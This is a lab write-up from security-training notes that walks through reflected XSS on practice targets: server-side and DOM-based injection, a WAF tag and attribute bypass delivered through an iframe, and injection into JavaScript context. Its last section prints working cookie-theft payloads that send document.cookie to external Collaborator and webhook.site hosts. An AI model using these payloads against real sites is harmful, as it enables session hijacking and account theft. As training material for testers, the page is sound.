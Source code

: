 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Reflected

{% hint style="info" %}
Reflected XSS occurs when malicious scripts are reflected off a web server, executed immediately, and displayed in the user's browser, typically via URL parameters or form inputs.
{% endhint %}

{% hint style="danger" %}
This can lead to unauthorized actions, data theft, or redirection to malicious sites, as the script runs in the context of the trusted website.
{% endhint %}

## Reflected Server XSS

> _The example below is based on OffSec's_ [_WEB-200_](https://www.offsec.com/courses/web-200/) _course._

This type of XSS is often found in `GET` requests and is based on the fact that the user trusts the domain. The app below has a search functionality where the search term is passed through a `GET` request and the `s` parameter. It is also reflected on the page via a `div` element (Figure 1).

<figure><img src="../../../../.gitbook/assets/offsec_xss_rs1.png" alt=""><figcaption><p>Figure 1: Searching for potential XSS entry points.</p></figcaption></figure>

A good starting point for finding XSS, is to first test for HTML injection. The latter has less potential for error, however, being able to inject HTML doesn't guarantee an XSS vulnerablity (Figure 2).

```html
<h1>test</h1>
```

<figure><img src="../../../../.gitbook/assets/offsec_xss_rs2.png" alt=""><figcaption><p>Figure 2: Testing for HTML injection.</p></figcaption></figure>

Since the app is vulerable to HTML injection, we can proceed testing for XSS (Figure 3).

```javascript
<script>prompt("XSS")</script>
```

<figure><img src="../../../../.gitbook/assets/offsec_xss_rs3.png" alt=""><figcaption><p>Figure 3: Testing for XSS.</p></figcaption></figure>

If our target clicks the link that includes the payload, it will be executed on their browser.

```html
search.com/search.php?s=%3Cscript%3Eprompt%28%22XSS%22%29%3C%2Fscript%3E
```

We can confirm that the server initiated the appending of the payload the to document by intercepting the request. The client executed the payload, but did not append it (Figure 4).\


<figure><img src="../../../../.gitbook/assets/offsec_xss_rs4.png" alt=""><figcaption><p>Figure 4: Confirming the server-side reflected XSS.</p></figcaption></figure>

## Reflected Client XSS

> _The example below is based on OffSec's_ [_WEB-200_](https://www.offsec.com/courses/web-200/) _course._

The impact of Reflected Client XSS, aka DOM-based XSS, is similar to that of Reflected Stored XSS, although the discovery and payload may differ. The payload is appended on the client-side rather on the server-side, and this mean that we can't enumerate Client XSS by intercepting the traffic and reviewing the server's response. Instead, we need to let the browser render the page fully and check if the payload has worked.

This app in question includes a `GET` request with the parameter `name` which seems to be vulnerable to HTML injection (Figure 5).

<figure><img src="../../../../.gitbook/assets/web_xss_reflected_client_1.png" alt=""><figcaption><p>Figure 5: Testing for HTML injection.</p></figcaption></figure>

Testing for XSS seems unsuccessful, although the payload seems to be appended correctly (Figure 6).

<figure><img src="../../../../.gitbook/assets/web_xss_reflected_client_2.png" alt=""><figcaption><p>Figure 6: Testing for XSS.</p></figcaption></figure>

Diving into the Network tab and reading the HTTP response, we can see that the string returned is `Welcome, User!` which is not what we get on our browser (Figure 7).

<figure><img src="../../../../.gitbook/assets/web_xss_reflected_client_3.png" alt=""><figcaption><p>Figure 7: Inspecting the network tab.</p></figcaption></figure>

Scrolling down the JS file, we can find that two more resources are loaded (Figure 8).

<figure><img src="../../../../.gitbook/assets/web_xss_reflected_client_4.png" alt=""><figcaption><p>Figure 8: Enumerating JavaScript resources.</p></figcaption></figure>

Diving deeper into the `survey.js` file, we find out that it sets the `innerHTML` of the `welcome` DOM element to the value set in the `name` parameter. This is where our payload gets injected.

<figure><img src="../../../../.gitbook/assets/web_xss_reflected_client_5.png" alt=""><figcaption><p>Figure 9: Investigating the <code>survey.js</code> file.</p></figcaption></figure>

According to [MDN](https://developer.mozilla.org/en-US/docs/Web/API/Element/innerHTML#security\_considerations), HTML specifies that a `<script>` tag inserted with `innerHTML` should not execute. However, right on the next line it gives a payload that should work (Figure 10).

```javascript
<img src='x' onerror='alert(1)'>
```

<figure><img src="../../../../.gitbook/assets/web_xss_reflected_client_6.png" alt=""><figcaption><p>Figure 10: Successfully performing an XSS attack.</p></figcaption></figure>

## Filter Bypass

> _The example below is based on PortSwigger's_ [_Reflected XSS into HTML context with most tags and attributes blocked_](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-html-context-with-most-tags-and-attributes-blocked) _lab._

In this web application, there is a search functionality and the search term is reflected back into the page within HTML tags (Figure 1).

<figure><img src="../../../../.gitbook/assets/web_reflected_xss_1.png" alt=""><figcaption><p>Figure 1: Identifying where our input is reflected.</p></figcaption></figure>

When our payload is inside HTML tags, we can simply add new HTML tags to trigger it. It seems that there is a WAF[^1] blocking specific tags (Figure 2).

<figure><img src="../../../../.gitbook/assets/web_reflected_xss_2.png" alt=""><figcaption><p>Figure 2: Common JavaScript tags seem to be blocked by a WAF.</p></figcaption></figure>

We can create a tag wordlist using PortSwigger's [XSS Cheatsheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet), and fuzz the application to see which tags are allowed (Figure 3).

<figure><img src="../../../../.gitbook/assets/web_reflected_xss_3.png" alt=""><figcaption><p>Figure 3: Fuzzing JavaScript tags with Burp's Intruder.</p></figcaption></figure>

Trying the `<body>` tag results in another verbose error message (Figure 4).

<figure><img src="../../../../.gitbook/assets/web_reflected_xss_4.png" alt=""><figcaption><p>Figure 4: Another verbose error message informing us about a blacklisted attribute.</p></figcaption></figure>

We can repeat the same process and enumerate allowed attributes (Figure 5).

<figure><img src="../../../../.gitbook/assets/web_reflected_xss_5.png" alt=""><figcaption><p>Figure 5: Fuzzing JavaScript attributes with Burp's Intruder.</p></figcaption></figure>

Now, all we have to do is delivering our XSS payload to the victim via the exploit server (Figure 6).

{% code overflow="wrap" %}
```javascript
<iframe src="https://0a64008c03c63be4804ada980065007b.web-security-academy.net/?search=%3Cbody+onresize%3Dprint%28%29%3E" onload=this.style.width='1em'>
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/web_reflected_xss_6.png" alt=""><figcaption><p>Figure 6: Delivering the exploit to the victim via an <code>iframe</code>.</p></figcaption></figure>

## Within JS

> _The example below is based on PortSwigger's_ [_Reflected XSS into a JavaScript string with angle brackets HTML encoded_](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-string-angle-brackets-html-encoded) _lab._

This time the search keyword ends up within a block of JS[^2] code (Figure 7).

<figure><img src="../../../../.gitbook/assets/web_xss_reflected_7.png" alt=""><figcaption><p>Figure 7: Identifying the context of a potential XSS flaw.</p></figcaption></figure>

We can treat this similar to an [SQLi](../sqli/) flaw and try injecting JS[^3] code to the search keyword (Figure 8).

<figure><img src="../../../../.gitbook/assets/web_xss_reflected_8.png" alt=""><figcaption><p>Figure 8: Achieving XSS via JavaScript Injection.</p></figcaption></figure>

## Contact Form

> _The example below is based on TCM's_ [_Practical Bug Bounty_](https://academy.tcm-sec.com/p/practical-bug-bounty) _course._

This application has a Support Ticket functionality and we also have access to an admin account that will review the submitted ticket. To test for stored XSS will use FireFox's [Multi-Account Containers](../../authorization/automated-a-b-testing.md#multi-account-containers) (Figure 9).

<figure><img src="../../../../.gitbook/assets/web_xss_stored_cookie_1.png" alt=""><figcaption><p>Figure 9: Setting up FireFox's containers for XSS testing.</p></figcaption></figure>

We will launch a web server, such as Burp's Collaborator or [Webhook](https://webhook.site/), to receive the request along with the admin's cookie (Figure 10 & 11).

{% code overflow="wrap" %}
```javascript
// collaborator payload
<script>
    fetch('https://705jjd45qk9l1pb4rhns097xgomfa5yu.oastify.com',
        {
            method: 'POST',
            mode: 'no-cors',
            body:document.cookie
        });
</script>

// webhook payload
<script>var i = new Image; i.src="https://webhook.site/094ef770-e736-4b31-a3cb-34be690ff1b9/?"+document.cookie</script>
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/web_xss_stored_cookie_collaborator.png" alt=""><figcaption><p>Figure 10: Using Burp's Collaborator to steal the admin's cookie.</p></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/web_xss_stored_cookie_webhook.png" alt=""><figcaption><p>Figure 11: Using Webhook to steal the admin's cookie.</p></figcaption></figure>

[^1]: Web Application Firewall

[^2]: JavaScript

[^3]: JavaScript
